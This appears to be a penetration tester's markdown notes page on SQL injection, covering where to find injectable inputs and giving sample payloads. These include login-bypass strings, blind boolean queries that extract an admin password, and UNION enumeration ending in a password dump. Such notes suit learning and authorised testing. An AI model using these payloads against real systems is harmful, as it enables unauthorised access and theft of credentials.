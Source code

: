 ```yaml
---
id: SQL_Injection
aliases:
  - SQL Injection
  - Basics
tags:
  - SQL
  - OWASP
  - Injection
---
```

### Basics
Understand your [[../../tools/SQL.md|SQL]] syntax.

### Conditions
1.) Submitted query must not be sanitized, or sanitization must be circumvented.

### Where To Look
#### Forms 
![Forms](../../media/sqli_1.png)
Often, form data is submitted 

#### URL Parameters 
![URL Parameters](../../media/sqli_2.png)
Sometimes the input can be directly manipulated from the URL

#### POST Injection  
If client-side sanitization takes place, can circumvent it by sending a POST request directly to the server-side API.
- [[burpsuite|Burpsuite]]
- [[curl|Curl]]
- Can also accomplish through the devtools in the browser


### What it looks like
#### Authentication Forms
In the username or password field adding one of the following inputs (dependent on SQL DB used on the backend):

`admin' OR 1=1-- -`
`admin' OR '1'='1'-- -`
`admin' OR 1=1;#`

#### Blind Injection
Boolean queries to extract info.
Can use the following tools:
- [[../../tools/sqlmap.md|SQLmap]]

Test for length of password (SQLite)
`admin' AND length((SELECT password from users where username='admin'))==37-- -`

Test for character in password (SQLite)
- `CAST(X'54' as Text')`: The way to represent a capital T in SQLite (X is hex; 54 is ASCII for 'T')
`admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -`


#### Enumerating 
When using the `UNION` operator, both `SELECT` statements must have the same number of columns, but we can rarely see the coded SQL statement and then must enumerate to find out how many columns are in the original statement:

```
1' UNION SELECT NULL-- -
1' UNION SELECT NULL, NULL-- -
1' UNION SELECT NULL, NULL, NULL-- -
```

Keep adding `NULL`s until to find the correct number of columns in the vulnerable query. Let's suppose there are 3 columns, then you can simply replace the last column with your query:

```
' UNION SELECT 1,2,group_concat(password) FROM users-- -
```
